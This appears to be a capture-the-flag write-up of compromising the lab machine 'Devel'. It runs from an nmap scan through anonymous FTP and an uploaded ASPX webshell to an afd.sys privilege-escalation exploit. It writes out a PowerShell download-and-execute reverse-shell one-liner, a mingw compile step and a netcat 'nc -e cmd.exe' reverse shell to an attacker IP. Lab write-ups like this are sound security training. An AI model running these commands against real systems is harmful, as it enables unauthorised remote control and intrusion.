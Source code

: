 <p align="center">
  <img width="300" src="https://user-images.githubusercontent.com/43796175/107217985-ff302900-69dc-11eb-999b-b1da568d1ff9.jpg" alt="DEVEL: Write Up">
</p>


# 01: Information Gathering

For starting, run nmap with a basic scan:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400057-70e89f80-6acf-11eb-95f3-6870ccbbe0b0.jpg"></p>

Two open ports can be seen, 21 FTP and 80 HTTP. Now, run again nmap but this time with an more advanced scan against the ports found:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400771-274c8480-6ad0-11eb-84f7-7b9a8b83b733.jpg"></p>

In this point, you can think about login in FTP with Anonymous credentials (port 21) and go more deep through HTTP and fuzzing (port 80).

# 02: Threat Modeling

Login in FTP with username and password "Anonymous" is possible:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107401864-4bf52c00-6ad1-11eb-9a7b-f795670ea890.jpg"></p>

Think if you can reach any files in the directory through which you had FTP access. For example, try to get through HTTP request the image "welcome.png":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107403079-b0fd5180-6ad2-11eb-80f8-092abfe6745e.jpg"></p>

Perfect, now you can try upload a webshell and visualize it in the browser:

# 03: Vulnerability Analysis

You can search the webshell necessary simply googling it. I found the next webshell which work fine:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413191-77324800-6ade-11eb-9dea-e66478f2d98e.jpg"></p>

<p align="center">https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx</p>

With FTP upload the webshell, using "put" command for this purpose:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413380-b1034e80-6ade-11eb-9557-089ca6cb717b.jpg"></p>

Try to see the webshell through browser, in http://10.10.10.5/cmdasp.aspx:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413825-34bd3b00-6adf-11eb-825d-a8d618e3ae18.jpg"></p>

You can see that is possible run commands efectly, then the more obviusly thought is get a reverse shell. For this, use Nishang that is a framework and collection of scripts and payloads which enables usage of PowerShell, in concret, you go to use the module of shells PS "Invoke-PowerShellTcp.ps1":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107414596-39362380-6ae0-11eb-84c9-9d326bf577c9.jpg"></p>

<p align="center">https://github.com/samratashok/nishang/tree/master/Shells</p>

# 04: Exploitation

Download the RAW file of this module:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107417782-f1190000-6ae3-11eb-8bb1-4e254b43e2b2.jpg"></p>

A good approach is execute the reverseShell in memory, like Nishang project describe:

<p align="center">https://github.com/samratashok/nishang</p>

"*Method 1. Use the in-memory dowload and execute: Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.*"

The next line is used for this:

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

Change the value necessary with your VPN IP address and port:

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://<YourVpnIP>:1234/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <YourVpnIP> -Port 1337
```

Configure a python server in port 1234 and netcat listening in the port 1337:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107417029-2cff9580-6ae3-11eb-979b-a16af27eb2cc.jpg"></p>

Paste the code in the webShell and you recive the reverse connection:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107418832-2114d300-6ae5-11eb-80d1-e63f9dca3e5d.jpg"></p>

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107418604-dabf7400-6ae4-11eb-95ef-d829c5de8ee1.jpg"></p>

# 05: Post-Exploitation

The first step for me is run "*systeminfo*" command in Windows a look for "Hotfix(s)" in the OS:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107423243-1ad52580-6aea-11eb-9668-1ac1c56fdc78.jpg"></p>

From the above information, you know that:

* OS is Windows 7 Enterprise
* OS Version 6.1.7600
* OS has no anyone Hotfix done

Then, a quickly search in Google gives some one results, you wanna see the results relationated with "*afd.sys*":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107424736-02fea100-6aec-11eb-9759-3a1110216d4d.jpg"></p>

The vulnerability make reference to the [Ancillary Function Driver](https://file.info/windows/afd_sys.html) (AFD) supports Windows sockets applications and is contained in the afd.sys file. The afd.sys driver runs in kernel mode and manages the Winsock TCP/IP communications protocol. 

An elevation of privilege vulnerability exists where the AFD improperly validates input passed from user mode to the kernel.

An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability.

An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges).

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107425166-a2bc2f00-6aec-11eb-8601-267fe5ab42a9.jpg"></p>

<p align="center">https://www.exploit-db.com/exploits/40564</p>

Download the exploit:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107426493-4ce88680-6aee-11eb-9d37-7a53672b5f7e.jpg"></p>

And now you need compile this exploit with *i686-w64-mingw32-gcc*:

``
i686-w64-mingw32-gcc exploit.c -o okExploit.exe -lws2_32
``

The parameter "*-lws2_32*" specific the library to use for compile:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107426914-d26c3680-6aee-11eb-9bd0-d666c78aec4d.jpg"></p>

Now you can get another revShell from your victim machine to you attacker machine. Search netcat in the path of binaries and configure SMB Server for share the file between machines:

Attacker machine:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107429043-7525b480-6af1-11eb-8d44-7c02095fae56.jpg"></p>

Victim machine:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107429386-d9e10f00-6af1-11eb-96fb-f3850a304cab.jpg"></p>

Then, run netcat in both machines for connection:


``
### Victim machine ###

.\nc.exe -e cmd.exe <yourVpnIP> <yourPORT>
``

``
### Attacker machine ###

nc -lnvp 1338
``

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107429726-3ba17900-6af2-11eb-8b25-bf034e303e16.jpg"></p>
